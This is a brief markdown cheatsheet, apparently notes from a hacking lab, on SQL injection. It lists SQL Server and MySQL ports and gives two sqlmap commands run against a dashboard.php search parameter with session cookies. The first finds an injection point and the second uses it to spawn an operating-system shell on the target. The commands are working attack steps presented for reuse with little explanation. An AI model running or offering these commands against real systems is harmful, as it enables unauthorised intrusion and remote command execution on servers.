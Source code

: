 <!-- https://cheatography.com/lucbpz/cheat-sheets/the-ultimate-markdown/ -->
# SQL Exploit Cheatsheet
## List of SQL Port Numbers
* **SQL Server**: tcp/1433
* **MySQL**: tcp/3306

## sqlmap
command to find an sql injection vulnerability when there is security using cookies on a webpage
```console
~$ sqlmap -u 'http://10.129.70.193/dashboard.php?search=anything' --cookie="858ggvh5mjtb181j0grcb6nd3q"
```

perform an sql command injection on the above setup to spawn a shell
```console
~$ sqlmap -u 'http://10.129.45.252/dashboard.php?search=hello' --cookie="PHPSESSID=sk03u89dk558v7glib9enbl8l1" --os-shell
```
